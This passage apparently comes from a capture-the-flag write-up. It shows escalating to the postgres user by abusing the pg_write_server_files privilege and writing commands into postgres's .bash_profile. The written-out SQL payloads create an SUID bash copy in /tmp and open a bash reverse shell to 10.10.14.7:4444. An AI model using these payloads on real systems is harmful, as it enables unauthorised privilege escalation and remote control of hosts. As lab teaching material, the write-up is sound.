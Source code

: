 ### PostGreSQL Privileges --> Postgres Shell

We can first enumerate the privileges we have with `\du`:

```
 Role name |                         Attributes                         |        Member of        
-----------+------------------------------------------------------------+-------------------------
 download  |                                                            | {pg_write_server_files}
 postgres  | Superuser, Create role, Create DB, Replication, Bypass RLS | {}
```

Interestingly, we are given the `pg_write_server_files` privilege. The database itself does not have any interesting information, so we are supposed to use this privilege to escalate to `postgres`.&#x20;

Since we have an arbitrary write as this user, I thought of creating a `/bin/bash` SUID binary to escalate to it. Being able to write files as the `postgres` user is no good if we cannot execute it as `postgres`.&#x20;

I noticed that `root` runs `su -l postgres`, meaning that that user is being logged into periodically. This means that files like `.bashrc` and `.profile` are being executed when this command is executed. Using our file write abilities, we can write in some commands to the `.bash_profile` file, which would be executed when `root` logs in as `postgres`.&#x20;

I used this to spawn an SUID shell:

```sql
COPY (SELECT CAST ('cp /bin/bash /tmp/sql_shell;chmod 4777 /tmp/sql_shell;'AS text)) TO '/var/lib/postgresql/.bash_profile';
```

After waiting for a bit, we can move laterally:

<figure><img src="../../.gitbook/assets/image (810).png" alt=""><figcaption></figcaption></figure>

However, we are still technically `wesley`instead of `postgres` even if the EUID changes. We can replace the command executed with a reverse shell instead:

```sql
COPY (SELECT CAST('bash -i >& /dev/tcp/10.10.14.7/4444 0>&1' AS text)) TO '/var/lib/postgresql/.bash_profile';
```

Then on a listener port, we would get a `postgres` shell:

<figure><img src="../../.gitbook/assets/image (811).png" alt=""><figcaption></figcaption></figure>
